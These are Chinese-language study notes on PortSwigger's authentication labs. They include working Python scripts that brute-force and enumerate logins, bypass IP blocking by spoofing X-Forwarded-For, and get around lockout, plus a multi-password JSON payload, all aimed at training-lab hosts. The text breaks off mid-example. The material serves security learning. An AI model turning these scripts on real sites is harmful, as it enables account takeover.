

# 身分驗證漏洞（Authentication Vulnerabilities）

By: 1PingSun

Ref: [https://portswigger.net/web-security/authentication](https://portswigger.net/web-security/authentication)

---

從概念上，身分驗證漏洞很好理解。但因為身分驗證和安全性直接存在明確的關係，因此相當重要。

身分驗證漏洞允許攻擊者取得敏感資料或敏感功能的權限。他們還公開了額外的攻擊面供利用，因此了解如何辨識和利用身分認證漏洞，並學習如何繞過常見的保護機制相當重要。

在這個章節中，將介紹：

* 網站常見的身分驗證機制
* 這些驗證機制潛在的漏洞
* 不同驗證機制固有的漏洞
* 由於操作不適當造成的典型漏洞
* 如何使自己的驗證機制盡可能的強壯

## 什麼是身分驗證？

身分驗證是一個驗證使用者或客戶端的過程。網站很有可能暴露給任何能夠連上網際網路的人。這使得強壯的身分驗證機制，成為網路安全不可或缺的元素。

以下有三種主要的身分驗證類型：

* Something you **know**：例如密碼或回答安全問題。有時也稱為「knowledge factors」。
* Something you **have**：這是物理的物件，例如手機號碼或安全 Token。有時也稱為「prossession factors」。
* Something you **are** or do：例如你的生物特徵或行為模式。有時也稱為「inheerence factors」。

身分驗證透過一系列技術驗證上述其中一個或多個因子（factor）。

### 身分驗證（Authentication）與授權（Authorization）有什麼區別？

身分驗證是驗證使用者是否是他們要求的身分的過程；授權涉及驗證使用者允許做哪些行為。

例如：身分驗證可以確定使用者 `Carlos123` 存取網頁時，存取者是否與創建此使用者為同一人。

一旦使用者 `Carlos123` 通過驗證，權限將決定他被授權可以做什麼。例如，他可能被授權可以存取其他使用者的個人資訊，或執行刪除其他使用者帳號等操作。

## 身分驗證漏洞是如何產生的？

身分驗證機制中大多數的漏洞是以下兩種之一產生的：

* 身分驗證機制脆弱，因為他無法充分的保護暴力攻擊。
* 邏輯缺陷或錯誤的程式撰寫允許攻擊者完全繞過身分驗證機制。有時也稱為「broken authentication」。

在許多 Web 開發領域，邏輯錯誤會導致網站出現意料之外的行為，這有可能導致安全問題。然而，身分驗證對安全相當重要，所以有缺陷的身分驗證邏輯會使安全問題暴露。

## 身分驗證漏洞會造成什麼影響？

身分驗證漏洞會造成很多影響。如果攻擊者繞過驗證或暴力破解取得其他使用者帳號，就能夠擁有被盜帳號者的所有資料和功能。如果攻擊者能夠入侵高權限的帳號（例如系統管理者），他將能夠控制整個應用，並有可能取得內部架構的權限。

即使只破壞了低權限的帳號，也會使攻擊者能夠存取他不應該擁有的資料，例如敏感的商業資訊。即使該帳號沒有權限存取任何敏感資料，仍然可能允許攻擊者存取其他頁面，從而提供更多攻擊面。通常高嚴重性的攻擊不可能從公開存取的頁面，但可能來自內部的頁面。

## 身分驗證機制漏洞

網站的身分驗證系統通常由多個不同的機制組成，其中可能出現漏洞。有些漏洞在所有情況下都適用，其他的則是透過提供的特定功能。

我們將更仔細研究以下常見的一些漏洞領域：

* 密碼登入的漏洞（password-based login）
* 多重驗證的漏洞（muti-factor authentication）
* 其他驗證機制的漏洞

很多 Labs 需要你列舉使用者名稱並暴力破解密碼。我們提供了[帳號](https://portswigger.net/web-security/authentication/auth-lab-usernames)及[密碼](https://portswigger.net/web-security/authentication/auth-lab-passwords)的字典檔，你需要使用這些字典檔來解決 Labs。

## 密碼登入的漏洞（password-based login）

對於採用基於密碼登錄流程的網站，用戶要麼自己註冊帳戶，要麼由管理員分配帳戶。此帳戶與唯一的用戶名和秘密密碼相關聯，用戶在登錄表單中輸入這些資訊來驗證身份。

在這種情況下，知道秘密密碼被視為用戶身份的充分證明。這意味著如果攻擊者能夠獲得或猜測其他用戶的登錄憑證，網站的安全性就會受到損害。

這可以透過多種方式實現。以下章節展示攻擊者如何使用暴力破解攻擊，以及暴力破解防護中的一些缺陷。你還將了解 HTTP 基本身份驗證中的漏洞。

### 暴力破解攻擊

暴力破解攻擊是指攻擊者使用試錯系統來猜測有效的用戶憑證。這些攻擊通常使用用戶名和密碼的詞彙表進行自動化。將此過程自動化，特別是使用專用工具，可能使攻擊者能夠高速進行大量登錄嘗試。

暴力破解並不總是完全隨機地猜測用戶名和密碼。透過使用基本邏輯或公開可用的知識，攻擊者可以調整暴力破解攻擊，做出更有根據的猜測。這大大提高了此類攻擊的效率。如果網站僅依賴基於密碼的登錄作為驗證用戶身份的唯一方法，而沒有實施足夠的暴力破解防護，就可能高度脆弱。

#### 暴力破解用戶名

如果用戶名符合可識別的模式（例如電子郵件地址），則特別容易猜測。例如，以 firstname.lastname@somecompany.com 格式的商業登錄非常常見。然而，即使沒有明顯的模式，有時甚至高權限帳戶也會使用可預測的用戶名創建，例如 admin 或 administrator。

在審計期間，檢查網站是否公開披露潛在的用戶名。例如，你是否能夠在不登錄的情況下訪問用戶配置文件？即使配置文件的實際內容被隱藏，配置文件中使用的名稱有時與登錄用戶名相同。你還應該檢查 HTTP 回應，看是否披露了任何電子郵件地址。有時，回應包含高權限用戶（例如管理員或 IT 支援）的電子郵件地址。

#### 暴力破解密碼

密碼同樣可以被暴力破解，難度因密碼強度而異。許多網站採用某種形式的密碼政策，強制用戶創建高熵密碼，理論上至少更難僅用暴力破解來破解。這通常涉及強制執行具有以下條件的密碼：

- 最小字符數
- 大小寫字母的混合
- 至少一個特殊字符

然而，雖然高熵密碼對於單純的計算機來說很難破解，我們可以利用對人類行為的基本了解來利用用戶無意中引入此系統的漏洞。用戶通常不會創建具有隨機字符組合的強密碼，而是採用他們能記住的密碼，並試圖強行使其符合密碼政策。例如，如果不允許使用 mypassword，用戶可能會嘗試 Mypassword1! 或 Myp4$$w0rd 之類的替代方案。

在政策要求用戶定期更改密碼的情況下，用戶通常只對其首選密碼進行小幅、可預測的更改。例如，Mypassword1! 變成 Mypassword1? 或 Mypassword2!。

這種對可能憑證和可預測模式的了解意味著暴力破解攻擊通常可以比簡單地遍歷每個可能的字符組合更加複雜，因此更加有效。

#### 用戶名枚舉

用戶名枚舉是指攻擊者能夠觀察網站行為的變化，以識別給定的用戶名是否有效。

用戶名枚舉通常發生在登錄頁面（例如，當你輸入有效用戶名但密碼不正確時）或註冊表單（當你輸入已被占用的用戶名時）。這大大減少了暴力破解登錄所需的時間和精力，因為攻擊者能夠快速生成有效用戶名的簡短清單。

在嘗試暴力破解登錄頁面時，你應該特別注意以下方面的任何差異：

* **狀態碼**：在暴力破解攻擊期間，返回的 HTTP 狀態碼對於絕大多數猜測可能是相同的，因為大多數都是錯誤的。如果某個猜測返回不同的狀態碼，這強烈表明用戶名是正確的。網站的最佳做法是無論結果如何都始終返回相同的狀態碼，但這種做法並不總是被遵循。

* **錯誤訊息**：有時返回的錯誤訊息會根據用戶名和密碼是否都不正確，或者只有密碼不正確而有所不同。網站的最佳做法是在兩種情況下都使用相同的通用訊息，但有時會出現小的打字錯誤。即使在字符在渲染頁面上不可見的情況下，僅一個字符的位置錯誤就會使兩個訊息截然不同。

* **回應時間**：如果大多數請求都以相似的回應時間處理，任何偏離此時間的請求都表明幕後發生了不同的事情。這是猜測的用戶名可能正確的另一個指示。例如，網站可能只有在用戶名有效時才檢查密碼是否正確。這個額外步驟可能導致回應時間略微增加。這可能很微妙，但攻擊者可以透過輸入過長的密碼使網站需要明顯更長時間處理，從而使這種延遲更加明顯。

::: tip **Lab: [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)**
1. 寫程式爆破帳號和密碼：
    ```Python:line-numbers
    import requests

    def init():
        global cookies, headers, data
        cookies = {
            'session': 'H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
        }

        headers = {
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
            'cache-control': 'no-cache',
            'content-type': 'application/x-www-form-urlencoded',
            'dnt': '1',
            'origin': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net',
            'pragma': 'no-cache',
            'priority': 'u=0, i',
            'referer': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
            'sec-ch-ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"macOS"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
            # 'cookie': 'session=H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
        }

        data = {
            'username': '1322',
            'password': '123123',
        }

    def enum_username():
        with open('username.txt', 'r') as f:
            usernames = f.readlines()
            for i in usernames:
                data = {
                    'username': i.strip(),
                    'password': '123',
                }

                response = requests.post(
                    'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                    cookies=cookies,
                    headers=headers,
                    data=data,
                )
                
                print(f'\rTrying username: {i.strip()}        ', end='')

                if 'Invalid username' not in response.text:
                    print(f'\nFound username: {i.strip()}')
                    break

    def enum_password():
        with open('password.txt', 'r') as f:
            passwords = f.readlines()
            for i in passwords:
                data = {
                    'username': 'ansible',
                    'password': i.strip(),
                }

                response = requests.post(
                    'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                    cookies=cookies,
                    headers=headers,
                    data=data,
                )
                
                print(f'\rTrying password: {i.strip()}              ', end='')

                if 'Incorrect password' not in response.text:
                    print(f'\nFound password: {i.strip()}')
                    break

    if __name__ == '__main__':
        init()
        enum_password()
    ```
2. 取得正確帳號為 `ansible`，密碼為 `michelle`，登入後即完成 Lab。
:::

::: tip **Lab: [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)**

1. 嘗試任意登入，發現回應 `Invalid username or password.`
2. 使用 Burp 的 Intruder 枚舉使用者名稱，觀察回應的差異，發現在枚舉到使用者 `auth` 的時候，回應為 `Invalid username or password`，其少了一個句點（`.`）。
3. 猜測存在使用者 `auth`
4. 使用使用者 `auth` 枚舉使用者的密碼，在枚舉到密碼 `777777` 的時候，回應中沒有 `Invalid username or password`。
5. 使用使用者名稱、密碼：`auth`/`777777` 登入通過此 Lab。
:::

::: tip Lab: [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

1. 嘗試輸入任意帳號密碼，回應 `Invalid username or password.`
2. 嘗試多次登入後發現 `You have made too many incorrect login attempts. Please try again in 30 minute(s).`
3. 透過修改 HTTP header `X-Forwarded-For` 繞過
4. 嘗試透過判斷回應時間枚舉出帳號，在此 Lab 中，需枚舉兩個欄位，分別是 `X-Forwared-For` 的 IP，以及使用者名稱。另外，密碼欄位需要使用很長的長度，以增加回應時間的差異性。由於此 Lab 需枚舉兩個欄位，只有專業版的 Burp Suite 才能做到，所以只好自己寫 Exploit。
5. 枚舉帳號密碼的 Exploit 如下：
   :::code-group

    ```Python:line-numbers [enum-username.py]
    #!/usr/bin/python
    import requests

    cookies = {
        'session': 'your-session-cookie',
    }

    headers = {
        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'accept-language': 'en-US,en;q=0.9',
        'cache-control': 'max-age=0',
        'content-type': 'application/x-www-form-urlencoded',
        'origin': 'https://your-lab-subdomain.web-security-academy.net',
        'priority': 'u=0, i',
        'referer': 'https://your-lab-subdomain.web-security-academy.net/login',
        'sec-ch-ua': '"Chromium";v="137", "Not/A)Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"macOS"',
        'sec-fetch-dest': 'document',
        'sec-fetch-mode': 'navigate',
        'sec-fetch-site': 'same-origin',
        'sec-fetch-user': '?1',
        'upgrade-insecure-requests': '1',
        'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36',
        'X-Forwarded-For': '8.8.8.8',
    }

    data = {
        'username': 'wiener',
        'password': 'peter'*200,
    }

    response = requests.post(
        'https://your-lab-subdomain.web-security-academy.net/login',
        cookies=cookies,
        headers=headers,
        data=data,
        verify=False,
    )

    usernames = open('usernames.txt', 'r').read().splitlines()
    passwords = open('passwords.txt', 'r').read().splitlines()
    output = open('output.csv', 'w')

    for i in range(0, len(usernames)):
        headers['X-Forwarded-For'] = f'8.{i}.{i}.{i}'
        data['username'] = usernames[i]

        response = requests.post(
            'https://your-lab-subdomain.web-security-academy.net/login',
            cookies=cookies,
            headers=headers,
            data=data,
            verify=False,
        )
        
        output.write(f'{usernames[i]},{response.status_code},{response.elapsed}\n')
    ```

    ```Python:line-numbers [enum-password.py]
    # !/usr/bin/python
    import requests

    cookies = {
        'session': 'your-session-cookie',
    }

    headers = {
        'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'accept-language': 'en-US,en;q=0.9',
        'cache-control': 'max-age=0',
        'content-type': 'application/x-www-form-urlencoded',
        'origin': 'https://your-lab-subdomain.web-security-academy.net',
        'priority': 'u=0, i',
        'referer': 'https://your-lab-subdomain.web-security-academy.net/login',
        'sec-ch-ua': '"Chromium";v="137", "Not/A)Brand";v="24"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"macOS"',
        'sec-fetch-dest': 'document',
        'sec-fetch-mode': 'navigate',
        'sec-fetch-site': 'same-origin',
        'sec-fetch-user': '?1',
        'upgrade-insecure-requests': '1',
        'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36',
        'X-Forwarded-For': '8.8.8.8',
    }

    data = {
        'username': 'mysql',
        'password': 'peter'*200,
    }

    response = requests.post(
        'https://your-lab-subdomain.web-security-academy.net/login',
        cookies=cookies,
        headers=headers,
        data=data,
        verify=False,
    )

    usernames = open('usernames.txt', 'r').read().splitlines()
    passwords = open('passwords.txt', 'r').read().splitlines()

    for i in range(0, len(passwords)):
        headers['X-Forwarded-For'] = f'8.{i}.{i}.{i}'
        data['password'] = passwords[i]

        response = requests.post(
            'https://your-lab-subdomain.web-security-academy.net/login',
            cookies=cookies,
            headers=headers,
            data=data,
            verify=False,
        )

        if 'Invalid username or password.' not in response.text:
            print(f'Found valid credentials: {data['username']}:{passwords[i]}')
            break
    ```
    :::
6. 經過枚舉後取得帳號密碼為 `mysq`l/`freedom`，通過此 Lab。
:::

### 有缺陷的暴力破解防護

暴力破解攻擊在成功入侵帳戶之前，極有可能涉及許多次失敗的猜測。從邏輯上來說，暴力破解防護的核心在於盡可能讓自動化過程變得困難，並減慢攻擊者嘗試登入的速度。防止暴力破解攻擊最常見的兩種方式是：

* 如果遠端使用者進行過多次失敗的登入嘗試，則鎖定該使用者試圖存取的帳戶
* 如果遠端使用者在短時間內進行過多次登入嘗試，則封鎖該使用者的 IP 位址

這兩種方法都能提供不同程度的保護，但都不是無懈可擊的，特別是在使用有缺陷的邏輯實作時。

例如，您有時可能會發現，如果登入失敗次數過多，您的 IP 位址會被封鎖。在某些實作中，如果該 IP 位址的擁有者成功登入，失敗嘗試次數的計數器就會重設。這意味著攻擊者只需要每隔幾次嘗試就登入自己的帳戶，就能防止達到這個限制。

在這種情況下，只要在字典檔中定期加入您自己的登入憑證，就足以讓這種防護機制幾乎形同虛設。

::: tip Lab: [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

1. 寫 exploit 每嘗試兩次請求就登入一組正確的帳號密碼，直到嘗試到正確的密碼就完成此 Lab 了
    ```python
    import requests

    def create_payload():
        wordlist = """123456
    password
    12345678

    ...put your passwords wordlist here...

    montana
    moon
    moscow""".split('\n')

        payload = []

        index = 0
        while (True):
            if index % 2 == 0:
                payload.append({
                    'username': 'wiener',
                    'password': 'peter'
                })
            payload.append({
                'username': 'carlos',
                'password': wordlist[index]
            })
            index += 1
            if index >= len(wordlist):
                break

        return payload

    def send_payload(payload):
        url = "https://0ad8002a034cd53c81d8bbea00ef00b5.web-security-academy.net/login"
        cookies = {
            'session': '0bDH2G8KDHX08wQ9oeMntk29hF50QcUe',
        }
        for data in payload:
            re = requests.post(url, data=data, cookies=cookies)
            print(f"\rTrying payload: {data}, Status: {re.status_code}{" " * 20}", end="")
            if "Incorrect password" not in re.text and "wiener" not in data['username']:
                print(f"\nFound valid credential: {data}")
                return

    if __name__ == "__main__":
        payload = create_payload()
        send_payload(payload)
    ```
:::

#### 帳戶鎖定

網站嘗試防止暴力破解的其中一種方式，就是在符合特定可疑條件時鎖定帳戶，通常是達到設定的登入失敗嘗試次數。就像一般的登入錯誤一樣，伺服器回應顯示帳戶已被鎖定的訊息，也可能協助攻擊者列舉使用者名稱。

::: tip Lab: [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)

1. 寫程式對每個使用者名稱請求五次，並請 AI 改寫成非同步增加速度：
    ```python
    import asyncio
    import aiohttp
    from typing import List

    wordlist = """carlos
    root
    admin

    ...put the usernames here...

    auto
    autodiscover""".split('\n')


    async def test_login(session: aiohttp.ClientSession, username: str, url: str) -> None:
        """測試單一用戶名登入"""
        data = {
            'username': username,
            'password': 'test',
        }
        
        try:
            async with session.post(url, data=data) as response:
                text = await response.text()
                print(f"User: {username}\tStatus: {response.status}\tlength: {len(text)}")
        except Exception as e:
            print(f"User: {username}\tError: {e}")


    async def run_tests(wordlist: List[str], url: str, rounds: int = 5) -> None:
        """執行非同步測試"""
        # 設定連接池和超時
        timeout = aiohttp.ClientTimeout(total=10)
        connector = aiohttp.TCPConnector(limit=50, limit_per_host=10)
        
        async with aiohttp.ClientSession(timeout=timeout, connector=connector) as session:
            tasks = []
            
            # 建立所有任務
            for round_num in range(rounds):
                print(f"\n--- Round {round_num + 1} ---")
                for username in wordlist:
                    task = test_login(session, username, url)
                    tasks.append(task)
            
            # 並發執行所有任務，但限制同時執行的數量
            semaphore = asyncio.Semaphore(20)  # 限制同時最多20個請求
            
            async def limited_task(task):
                async with semaphore:
                    await task
            
            # 執行所有任務
            await asyncio.gather(*[limited_task(task) for task in tasks])


    async def main():
        """主函數"""
        url = 'https://0a45005d0321c863814516e700cb0001.web-security-academy.net/login'
        await run_tests(wordlist, url, rounds=5)


    if __name__ == "__main__":
        # 執行非同步程式
        asyncio.run(main())
    ```
2. 發現使用者名稱 `agenda` 的回應長度不同，猜測存在使用者名稱 `agenda`
3. 撰寫程式嘗試各種密碼，並請 AI 改寫成非同步增加速度：
    ```python
    import asyncio
    import aiohttp
    from typing import List

    wordlist = """123456
    password
    12345678
    
    ...put the passwords here...

    moon
    moscow""".split('\n')


    async def test_password(session: aiohttp.ClientSession, password: str, url: str, username: str = 'agenda') -> None:
        """測試單一密碼登入"""
        data = {
            'username': username,
            'password': password,
        }
        
        try:
            async with session.post(url, data=data) as response:
                text = await response.text()
                status = response.status
                length = len(text)
                
                print(f"Password: {password}\tStatus: {status}\tLength: {length}")
                            
        except Exception as e:
            print(f"Password: {password}\tError: {e}")

    async def run_password_tests(wordlist: List[str], url: str, rounds: int = 5, username: str = 'agenda') -> None:
        """執行非同步密碼測試"""
        # 設定連接池和超時
        timeout = aiohttp.ClientTimeout(total=15)
        connector = aiohttp.TCPConnector(
            limit=30,           # 總連接池大小
            limit_per_host=15,  # 每個主機的連接限制
            ttl_dns_cache=300,  # DNS快取時間
            use_dns_cache=True,
        )
        
        async with aiohttp.ClientSession(
            timeout=timeout, 
            connector=connector,
            headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'}
        ) as session:
            
            for round_num in range(rounds):
                print(f"\n=== Round {round_num + 1} ===")
                
                # 建立該輪的所有任務
                tasks = []
                for password in wordlist:
                    task = test_password(session, password, url, username)
                    tasks.append(task)
                
                # 使用信號量限制並發數
                semaphore = asyncio.Semaphore(10)  # 同時最多10個請求
                
                async def limited_task(task):
                    async with semaphore:
                        await task
                        # 小延遲避免過快請求
                        await asyncio.sleep(0.1)
                
                # 執行該輪所有任務
                await asyncio.gather(*[limited_task(task) for task in tasks])
                
                print(f"Round {round_num + 1} completed")


    async def main():
        """主函數"""
        url = 'https://0a45005d0321c863814516e700cb0001.web-security-academy.net/login'
        username = 'agenda'
        
        print(f"開始測試用戶 '{username}' 的密碼...")
        print(f"總共將測試 {len(wordlist)} 個密碼，執行 5 輪")
        
        await run_password_tests(wordlist, url, rounds=5, username=username)


    if __name__ == "__main__":
        # 執行非同步程式
        asyncio.run(main())
4. 找到密碼 `summer` 的回應長度和其他回應長度不同。
5. 等待一分鐘解除鎖定後，登入取得的帳號密碼完成此 Lab。
:::

鎖定帳戶對於針對特定帳戶的目標式暴力破解攻擊提供了一定程度的保護。然而，這種方法無法充分防止攻擊者只是試圖取得任何隨機帳戶存取權限的暴力破解攻擊。

例如，可以使用以下方法來繞過這種防護：

1. 建立一份可能有效的候選使用者名稱清單。這可以透過使用者名稱列舉，或者簡單地基於常見使用者名稱清單來達成。
2. 決定一個非常少量的密碼候選清單，您認為至少有一個使用者可能會使用。關鍵在於，您選擇的密碼數量不得超過允許的登入嘗試次數。例如，如果您已經確定限制為 3 次嘗試，您最多只能選擇 3 個密碼猜測。
3. 使用諸如 Burp Intruder 之類的工具，對每個候選使用者名稱嘗試每個選定的密碼。透過這種方式，您可以嘗試對每個帳戶進行暴力破解而不會觸發帳戶鎖定。您只需要一個使用者使用這三個密碼中的其中一個，就能成功入侵帳戶。

帳戶鎖定也無法防護憑證填充攻擊。這種攻擊涉及使用大量的「使用者名稱：密碼」配對字典，由在資料外洩事件中竊取的真實登入憑證組成。憑證填充攻擊利用了許多人在多個網站上重複使用相同使用者名稱和密碼的事實，因此字典中的某些被入侵憑證也有可能在目標網站上有效。帳戶鎖定無法防護憑證填充攻擊，因為每個使用者名稱只會被嘗試一次。憑證填充攻擊特別危險，因為它有時可以讓攻擊者僅透過一次自動化攻擊就入侵許多不同的帳戶。

#### 使用者速率限制

網站嘗試防止暴力破解攻擊的另一種方式是透過使用者速率限制。在這種情況下，在短時間內進行過多的登入請求會導致您的 IP 位址被封鎖。通常，IP 位址只能透過以下其中一種方式解除封鎖：

* 在經過一定時間後自動解除
* 由管理員手動解除
* 由使用者在成功完成驗證碼（CAPTCHA）後手動解除

由於使用者速率限制較不容易出現使用者名稱列舉和拒絕服務攻擊，因此有時會優於帳戶鎖定。然而，它仍然不是完全安全的。正如我們在之前的實驗中看到的例子，攻擊者有幾種方法可以操縱其表面 IP 位址來繞過封鎖。

由於限制是基於從使用者 IP 位址發送的 HTTP 請求速率，如果您能夠找出如何透過單一請求猜測多個密碼的方法，有時也可能繞過這種防護機制。

::: tip Lab: [Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)

1. 使用使用者名稱 `carlos` 及任意使用者名稱登入。
2. 透過 Burp Suite 的 Repeater 修改請求。
3. 請求為 Json 格式，將 `password` 欄位放入所有的密碼。
    ```json
    {
        "username" : "carlos",
        "password" : [
            "123456",
            "password",
            "qwerty"
            ...
            ]
    }
    ```
4. 請求回應 302，在回應上方點擊右鍵選擇「Show response in browser」成功登入完成此 Lab。
:::

### HTTP 基本驗證

雖然 HTTP 基本驗證相當古老，但由於其相對簡單和易於實作的特性，您有時仍會看到它被使用。在 HTTP 基本驗證中，客戶端從伺服器接收一個驗證權杖，該權杖是透過串聯使用者名稱和密碼，並使用 Base64 編碼而建構的。這個權杖由瀏覽器儲存和管理，瀏覽器會自動將其加入到後續每個請求的 `Authorization` 標頭中，如下所示：

```http
Authorization: Basic base64(username:password)
```

基於多種原因，這通常不被認為是安全的驗證方法。首先，它涉及在每個請求中重複發送使用者的登入憑證。除非網站同時實作 HSTS，否則使用者憑證容易在中間人攻擊中被擷取。

此外，HTTP 基本驗證的實作通常不支援暴力破解防護。由於權杖完全由靜態值組成，這可能使其容易遭受暴力破解攻擊。

HTTP 基本驗證對於工作階段相關的漏洞也特別脆弱，尤其是 CSRF，它本身無法提供任何防護。

在某些情況下，利用有漏洞的 HTTP 基本驗證可能只會讓攻擊者存取看似無趣的頁面。然而，除了提供進一步的攻擊面之外，以這種方式暴露的憑證可能會在其他更機密的環境中被重複使用。

## 多重要素驗證機制的漏洞（multi-factor authentication, MFA）

在本節中，我們將探討多重要素驗證機制中可能出現的一些漏洞。我們也提供了數個互動式實驗來示範如何利用多重要素驗證中的這些漏洞。

許多網站完全依賴使用密碼的單一要素驗證來驗證使用者身分。然而，有些網站要求使用者使用多個驗證要素來證明其身分。

對大多數網站而言，驗證生物特徵要素並不實際。然而，基於**您所知道的**和**您所擁有的**雙重要素驗證（2FA）越來越常見，無論是強制性或選擇性的。這通常要求使用者輸入傳統密碼和來自其持有的頻外實體裝置的臨時驗證碼。

雖然攻擊者有時可能取得單一知識型要素（如密碼），但同時從頻外來源取得另一個要素的可能性要低得多。基於這個原因，雙重要素驗證明顯比單一要素驗證更安全。然而，就像任何安全措施一樣，它的安全性只取決於其實作方式。實作不良的雙重要素驗證可能被破解，甚至完全被繞過，就像單一要素驗證一樣。

同樣值得注意的是，只有透過驗證多個**不同**要素，才能獲得多重要素驗證的完整效益。以兩種不同方式驗證相同要素並非真正的雙重要素驗證。基於電子郵件的 2FA 就是一個例子。雖然使用者必須提供密碼和驗證碼，但存取驗證碼只需要他們知道電子郵件帳戶的登入憑證。因此，知識驗證要素只是被驗證了兩次。

### 雙重要素驗證權杖

驗證碼通常由使用者從某種實體裝置上讀取。許多高安全性網站現在為使用者提供專用裝置，例如您可能用來存取網路銀行或工作筆電的 RSA 權杖或按鍵裝置。除了專為安全性而設計外，這些專用裝置還具有直接產生驗證碼的優勢。網站使用專用的行動應用程式（如 Google Authenticator）也很常見，原因相同。

另一方面，有些網站會透過簡訊將驗證碼發送到使用者的行動電話。雖然這在技術上仍然是驗證「您所擁有的」要素，但容易遭到濫用。首先，驗證碼是透過 SMS 傳輸，而不是由裝置本身產生。這為驗證碼被攔截創造了可能性。還有 SIM 卡調換的風險，攻擊者會詐欺性地取得帶有受害者電話號碼的 SIM 卡。攻擊者接著會收到所有發送給受害者的 SMS 簡訊，包括包含驗證碼的簡訊。

### 繞過雙重要素驗證

有時，雙重要素驗證的實作存在缺陷，嚴重到可以被完全繞過。

如果使用者首先被提示輸入密碼，然後在另一個頁面上被提示輸入驗證碼，那麼使用者在輸入驗證碼之前實際上已經處於「已登入」狀態。在這種情況下，值得測試是否可以在完成第一個驗證步驟後直接跳到「僅限已登入」的頁面。偶爾，您會發現網站在載入頁面之前實際上並未檢查您是否完成了第二個步驟。

::: tip Lab: [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)

1. 使用 victim 的帳號密碼登入，提示需輸入 4 位數驗證碼。
2. 直接存取路徑 `/my-account` 成功繞過驗證碼並登入完成此 Lab。
:::

### 有缺陷的雙重要素驗證邏輯

有時，雙重要素驗證中的邏輯缺陷意味著在使用者完成初始登入步驟後，網站並未充分驗證完成第二個步驟的是同一位使用者。

例如，使用者在第一步驟中使用其正常憑證登入，如下所示：

```http
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

然後，他們會被指派一個與其帳戶相關的 Cookie，接著被帶到登入流程的第二步驟：

```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

當提交驗證碼時，請求會使用這個 Cookie 來決定使用者試圖存取的帳戶：

```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

在這種情況下，攻擊者可以使用自己的憑證登入，但在提交驗證碼時將 `account` Cookie 的值變更為任意使用者名稱。

```http
POST /login-steps/second HTTP/1.1
